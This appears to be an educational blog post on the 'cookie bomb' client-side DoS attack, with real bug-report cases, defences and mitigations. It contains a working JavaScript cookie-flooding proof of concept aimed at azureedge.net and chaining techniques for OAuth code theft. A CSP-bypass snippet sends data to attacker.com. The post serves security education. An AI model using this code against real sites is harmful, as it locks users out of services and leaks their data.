




Interesting and Practical Cookie Bomb
In the previous post, we learned about cookie tossing, which allows us to manipulate other same-site domains by writing cookies. In this post, we will introduce another attack technique that utilizes cookies called cookie bomb. It is a client-side DoS attack caused by cookies.
When we talk about DoS, we might think about sending a large number of packets to a website, overwhelming the server and causing it to be unresponsive or run out of resources. We might also think of DDoS (Distributed Denial-of-Service), where multiple hosts send packets simultaneously to a server, causing it to crash.
DoS and DDoS attacks actually operate at different layers. These layers correspond to the OSI model that you may have learned about. The attacks we usually think of are more like attacks at the L3 network layer and L4 transport layer. However, cookie bomb is a DoS attack that exists at the L7 application layer.
For example, let’s say a website has an API for querying data, and it has a _limit parameter to specify how many records should be return, the default value is 100. But when I change it to 10000, I notice that the server takes over a minute to respond. So, I start sending a request every two seconds. As I continue sending these requests, I observe that the website becomes slower and eventually crashes, returning a 500 Internal Server Error. This is an example of a DoS attack at the application layer.
Any method that prevents users from accessing a website can be considered a DoS attack. The method we have discovered is based on the L7 application layer, making it an L7 DoS attack.
Among the various L7 DoS attack techniques, there is one that I find particularly interesting, and that is the cookie bomb.
Introduction to Cookie Bomb
To execute a cookie bomb attack, the prerequisite is the ability to write cookies. There are basically two ways to achieve this. The first way is by exploiting the logic of the website itself.
For example, let’s say there is a page https://example.com/log?uid=abc. When you visit this page, it writes uid=abc to a cookie. So, if you change the URL to ?uid=xxxxxxxxxx, it will write xxxxxxxxxx to the cookie. This is one way.
The other way is the one mentioned in the previous post, where you gain control of a subdomain and can execute JavaScript code. This can be achieved through subdomain takeover or other methods.
Once you can write arbitrary cookies, what can you do with them? You can start writing a bunch of garbage into them.
For example, a1=o....*4000, which means writing a lot of meaningless content into the cookie. Here, it is important to note that a cookie can have a size of approximately 4KB, and we need at least two cookies, which means we need to write 8KB of data to achieve the attack.
After you write these cookies, when you return to the homepage https://example.com, according to the nature of cookies, all these garbage cookies will be sent to the server, right? Now comes the moment of witnessing the miracle.
Instead of displaying the usual page, the server responds with an error: 431 Request Header Fields Too Large.

Among the various HTTP status codes, there are two related to a request being too large:
- 413 Payload Too Large
- 431 Request Header Fields Too Large
For example, if you fill out a form with a million characters and send it to the server, you will likely receive a 413 Payload Too Large response. As the error message suggests, the payload is too large for the server to handle.
The same applies to headers. When you have too many cookies, the Cookie field in the request header becomes large, so large that the server cannot handle it, resulting in a 431 Request Header Fields Too Large response (although, based on testing, some servers may respond with different codes depending on their implementation, such as Microsoft responding with 400 bad request).
Therefore, if we can overload a user’s cookies, we can make them see this error page and prevent them from accessing the service properly. This is the cookie bomb, a DoS attack caused by a large number of cookies. The underlying principle is that “when a browser visits a webpage, it automatically sends the corresponding cookies along with it.”
The term “cookie bomb” originated from a blog post titled Cookie Bomb or let’s break the Internet published by Egor Homakov on January 18, 2014. However, similar attack techniques had already appeared in 2009: How to use Google Analytics to DoS a client from some website.
Attack Process
As mentioned above, let’s assume that we have discovered a URL https://example.com/log?uid=abc that allows us to set arbitrary cookies. The next steps are as follows:
- Find a way to write a cookie larger than 8KB (as many server limitations are around 8KB).
- Pass this URL to the target of the attack and find a way to make them click on it.
- The target clicks on the URL and sets a very large cookie in their browser.
- The target visits the website
https://example.comand finds that they cannot see any content, only a blank page or an error message. The attack is successful.
In this situation, unless the user changes their browser or the cookie expires, or manually clears the cookie, they will always be in this state.
To summarize, this attack can only target specific users and requires two prerequisites:
- Finding a place where arbitrary cookies can be set.
- The target must click on the URL found in step one.
Now let’s look at a few real-world examples. The first one is a vulnerability reported by filedescriptor to Twitter in 2015: DOM based cookie bomb.
He found the following code on the Twitter website:
function d(a) {
...
var b = document.referrer || "none",
d = "ev_redir_" + encodeURIComponent(a) + "=" + b + "; path=/";
document.cookie = d;
...
}
...
window.location.hash != "" && d(window.location.hash.substr(1).toLowerCase())It can be seen that the data from the URL hash and document.referrer are placed in the cookie, and document.referrer is not encoded at all. Therefore, it is possible to write arbitrary cookies using this vulnerability. By exploiting the document.referrer, a very long cookie can be written, causing a Denial of Service (DoS) attack.
When a user clicks on the cookie bomb link, they will see an error page when they visit Twitter.
The second example is a vulnerability reported by s_p_q_r to Shopify in 2015: [livechat.shopify.com] Cookie bomb at customer chats. In this case, the frontend code directly uses the information from the URL as the content of the cookie. Before writing it, the content is encoded. For example, , becomes %2C, tripling the length. Therefore, by passing a very long URL, a cookie bomb can be created.
The last example is a vulnerability reported by bihari_web to NordVPN in 2020: Denial of Service with Cookie Bomb.
Similar to the previous two cases, it was discovered that the information from the URL (such as the path or a specific query string) is extracted and written into the cookie without any length limitation. Therefore, a cookie bomb can be created by using a very long URL.
Before continuing to discuss the attack surface, let’s first mention some defense measures.
Defense Measures
The first point is not to trust user input. For example, in the mentioned example: https://example.com/log?uid=abc, abc should not be directly written into the cookie. Instead, basic checks such as format or length should be performed to prevent this type of attack.
Next, when I mentioned setting cookies from a subdomain to a root domain, many people might think of one thing: “What about shared subdomains?”
For example, with the GitHub Pages feature, each person’s domain is username.github.io. So, can’t I create a cookie bomb that affects all GitHub Pages? I can simply create a malicious HTML page on my own subdomain, containing JavaScript code to set cookies. Then, if I send this page to anyone and they click on it, they won’t be able to access any *.github.io resources because they will be rejected by the server.
This hypothesis seems valid, but there is a prerequisite that must be met: “Users can set cookies on *.github.io for github.io.” If this prerequisite is not met, the cookie bomb cannot be executed.
In fact, there are many requirements like “not allowing the upper-level domain to be affected by cookie settings.” For example, if a.com.tw can set cookies for .com.tw or .tw, wouldn’t a lot of unrelated websites share cookies? This is clearly unreasonable.
Or consider the website of the Presidential Office, https://www.president.gov.tw. It should not be affected by the website of the Ministry of Finance, https://www.mof.gov.tw. Therefore, .gov.tw should also be a domain where cookies cannot be set.
I don’t know if you still remember, but we have actually mentioned this concept when talking about origin and site.
When the browser determines whether it can set a cookie for a certain domain, it refers to a list called the public suffix list. Domains that appear on this list cannot directly set cookies for their subdomains.
For example, the following domains are on this list:
- com.tw
- gov.tw
- github.io
So, the example mentioned earlier is not valid because when I am on userA.github.io, I cannot set a cookie for github.io, so the cookie bomb attack cannot be executed.
Expanding the Attack Surface
There are two prerequisites for the success of the aforementioned attacks:
- Finding a place where arbitrary cookies can be set.
- The target must click on the URL found in step one.
To make the attack easier to succeed, we can consider the following regarding these two prerequisites:
- Is it possible to easily find this place?
- Is it possible for the target to be compromised without clicking on a link?
The second point can be achieved through a vulnerability called Cache Poisoning.
As the name suggests, this vulnerability involves contaminating the content in the cache. For example, many websites have caches, and different users may access the same cache. In this case, I can find a way to make the cache server store a corrupted response. This way, all other users will also receive the corrupted file and see the same error message.
In this way, the target can be compromised without clicking on any links, and the attack is expanded from one person to everyone.
This has a specific term called CPDoS (Cache Poisoned Denial of Service). Since it exploits the cache, it is not related to the cookie bomb anymore. You can even launch the attack directly from your own computer without using cookies.
Now let’s look at the first point: “Is it possible to easily find this place?“.
Finding a Place to Easily Set Cookies
Is there a place where we can easily set cookies to execute a cookie bomb? Yes, it is the shared subdomain mentioned earlier, such as *.github.io.
But aren’t these domains already in the public suffix list? They cannot set cookies.
Just find one that is not on the list!
However, this is not an easy task because you will find that most of the services you know are already registered. For example, GitHub, AmazonS3, Heroku, and Netlify, among others, are already on the list.
But I found one that is not on the list, and that is Azure CDN provided by Microsoft: azureedge.net
I don’t know why, but this domain does not belong to the public suffix, so if I create my own CDN, I can execute a cookie bomb.
Make a PoC
The code I used for the demo is as follows, referenced and modified from here:
const domain = 'azureedge.net'
const cookieCount = 40
const cookieLength = 3000
const expireAfterMinute = 5
setCookieBomb()
function setCookie(key, value) {
const expires = new Date(+new Date() + expireAfterMinute * 60 * 1000);
document.cookie = key + '=' + value + '; path=/; domain=' + domain + '; Secure; SameSite=None; expires=' + expires.toUTCString()
}
function setCookieBomb() {
const value = 'Boring' + '_'.repeat(cookieLength)
for (let i=0; i<cookieCount; i++) {
setCookie('key' + i, value);
}
}Next, upload the file to Azure and set up the CDN.
After clicking on it, a bunch of junk cookies will be set on azureedge.net:

After refreshing, you will find that the website is no longer accessible:

This means the cookie bomb was successful.
So, any resources placed on azureedge.net will be affected.
Actually, Azure CDN has the ability to use custom domains, so if you use a custom domain, you won’t be affected. However, some websites do not use custom domains and directly use azureedge.net as the URL.
Mitigation
The best mitigation is to use a custom domain instead of the default azureedge.net. This way, you won’t have the cookie bomb issue. But aside from custom domains, azureedge.net should be registered as a public suffix to truly solve the problem.
Apart from these two defense measures, there is another one you may not have thought of.
As frontend engineers, we usually include resources like this:
<script src="htps://test.azureedge.net/bundle.js"></script>Just add the crossorigin attribute:
<script src="htps://test.azureedge.net/bundle.js" crossorigin></script>You can avoid cookie bomb attacks by using the crossorigin attribute when making requests. By default, when sending a request, cookies are included. However, if you use the crossorigin attribute and make the request in a cross-origin manner, cookies will not be included by default. This prevents the occurrence of the “header too large” issue.
Just remember to adjust the settings on the CDN side as well. Make sure the server adds the Access-Control-Allow-Origin header to allow cross-origin resource requests.
I used to be confused about when to use the crossorigin attribute, but now I know one of the use cases. If you don’t want to include cookies in the request, you can add the crossorigin attribute.
Another Real-world Example
Tumblr, which was originally focused on a specific niche but later acquired by Automattic, has a special feature that allows users to customize CSS and JavaScript on their personal pages. The domain of these personal pages is in the format of userA.tumblr.com. Since tumblr.com is not registered under a public suffix, it is also vulnerable to cookie bomb attacks.
If you visit the following URL in Chrome or Edge and then refresh or go to the Tumblr homepage, you will notice that you cannot access it:

I reported this vulnerability to Tumblr, and the next day I received a response stating:
This behavior does not pose a concrete and exploitable risk to the platform in and on itself, as this can be fixed by clearing the cache, and is more of a nuisance than a security vulnerability.
For some companies, the harm caused by cookie bomb attacks is considered minimal. Additionally, the first victim must visit the specific URL, and clearing the cookies resolves the issue. Therefore, they do not consider it a security vulnerability.
Microsoft’s response is similar. If there is only a cookie bomb attack without any additional vulnerabilities, it does not meet their minimum standard for security vulnerabilities.
So, what other vulnerabilities can be combined with cookie bomb attacks?
Connecting the Dots with Cookie Bomb Vulnerabilities
In the field of cybersecurity, it has always been an art to connect seemingly small issues into a larger problem. While cookie bomb attacks alone may not be very impactful, when combined with other elements, they can potentially lead to severe vulnerabilities. For example, we have previously seen how same-site websites can bypass same-site cookie restrictions and exploit CORS limitations through parsing issues in the content-type header, resulting in a CSRF vulnerability.
The first case I want to introduce appeared in a talk by filedescriptor at HITCON CMT in 2019: The cookie monster in your browsers.
He discovered an XSS vulnerability on example.com, which used Google OAuth for login. He thought that he could use XSS to steal the OAuth code and gain direct access to the user’s account, turning it into a more severe account takeover vulnerability.
The typical OAuth flow is as follows:
- User clicks the “Sign in with Google” button.
- The webpage redirects to
https://google.com/oauth?client_id=example. - The user logs in and grants authorization on Google.
- The webpage redirects to
https://example.com/oauth/callback?code=123. - The webpage further redirects to
https://example.com/home, indicating a successful login.
If the user has already granted authorization, the third step is skipped, and the redirection occurs directly.
The problem now is that the code can only be used once. Once you visit https://example.com/oauth/callback?code=123, the frontend or backend will use the code, rendering any stolen code useless. This is where cookie bomb comes into play.
With the XSS vulnerability on example.com, we have complete control over the page. We can write cookies and execute a cookie bomb on the /oauth path. Then, we can add an iframe with the URL https://google.com/oauth?client_id=example. When the authorization is completed, the iframe will be redirected to https://example.com/oauth/callback?code=123. Due to the cookie bomb, the server will return an error at this point. We can retrieve the URL of the iframe and obtain the code, ensuring that it has not been used by anyone else.
The second case is related to CSP bypass. Some websites may not directly add CSP from the backend application, but instead use reverse proxies like nginx to add it uniformly:
server {
listen 80;
server_name _;
index index.php;
root /www;
location / {
try_files $uri $uri/ /index.php?$query_string;
add_header Content-Security-Policy "script-src 'none'; object-src 'none'; frame-ancestors 'none';";
location ~ \.php$ {
try_files $uri =404;
fastcgi_pass unix:/run/php-fpm.sock;
fastcgi_index index.php;
fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
include fastcgi_params;
}
}
}
At first glance, there doesn’t seem to be a problem. However, if nginx returns a 4xx or 5xx error, this header will not be added to the response. This is the default behavior of nginx, as mentioned in the documentation:
Adds the specified field to a response header provided that the response code equals 200, 201 (1.3.10), 204, 206, 301, 302, 303, 304, 307 (1.1.16, 1.0.13), or 308 (1.13.0).
Therefore, we can use a cookie bomb to create an error page that does not have the CSP header. Some people may wonder, but this is an error page, so what’s the use of not having CSP?
Let’s assume that the original page has a very strict CSP, with all directives set to 'self', except for script-src which has an additional unsafe-inline. And let’s say we found an XSS vulnerability, so we can execute code.
But the problem is, our data cannot be sent out! Because of CSP, all external links are blocked. At this point, we can use a cookie bomb to bombard the /test page first, and then put the /test page into an iframe.
Once it’s inside the iframe, due to the same-origin policy, I can directly access the /test page, which does not have CSP. Therefore, requests can be sent from this page, as shown in the following example:
<iframe id=f src="/test" onload=run()></iframe>
<script>
function run() {
f.contentWindow.fetch('https://attacker.com?data=...')
}
</script>Methods like this bypass CSP restrictions by combining DoS with iframes.
(By the way, CSP currently cannot achieve “blocking all external connections”. If you only need to send requests externally, there are other faster methods, such as using location=... for page redirection, and so on.)
Conclusion
In this article, we have seen another way to use cookies as a means of executing DoS attacks and preventing web pages from loading. Although this vulnerability itself does not have a significant impact, and many companies do not consider it a security vulnerability, when combined with other techniques, it can become a more impactful vulnerability.
This concludes Chapter 4, “Cross-site Attacks”. In the recent articles, we first understood the difference between origin and site, then learned about CORS settings and the consequences of misconfigurations. We also explored CSRF and same-site cookies, and finally discussed the attacks that can be executed after gaining control over same-site.
Starting from the next article, we will enter Chapter 5: “Other Interesting Topics”.
This article is adapted from: DoS Attack Using Cookie Features: Cookie Bomb